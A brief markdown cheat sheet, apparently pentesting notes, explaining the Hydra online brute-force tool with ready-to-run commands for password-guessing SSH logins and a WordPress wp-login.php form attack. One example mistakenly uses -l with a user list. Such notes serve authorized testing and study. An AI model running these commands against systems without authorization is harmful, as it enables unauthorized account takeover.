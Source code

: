 title: Hydra

Unlike `john` or `hashcat` that crack passwords offline `hydra` is an online brute force tool

# Usage
```
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Syntax: hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e nsr] [-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-W TIME] [-f] [-s PORT] [-x MIN:MAX:CHARSET] [-c TIME] [-ISOuvVd46] [service://server[:PORT][/OPT]]
```

`hydra` basic usage requires a username, password & target. As you can see from above you can specify files containing usernames and/or passwords. 

* Try to brute force user `bob` over `ssh`
```
hydra -l bob -P /path/to/word/list.txt target ssh
```

* Try to brute force a list of users using `summer2021 `
```
hydra -l users.txt -p summer2021 target ssh
```

* Try to brute force a list of users using a wordlist
```
hydra -L users.txt -P /path/to/word/list.txt target ssh
```

# Wordpress
To brute force `wordpress` with `hydra` we can use the below

```
hydra -l username -P /path/to/word/list.txt host -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```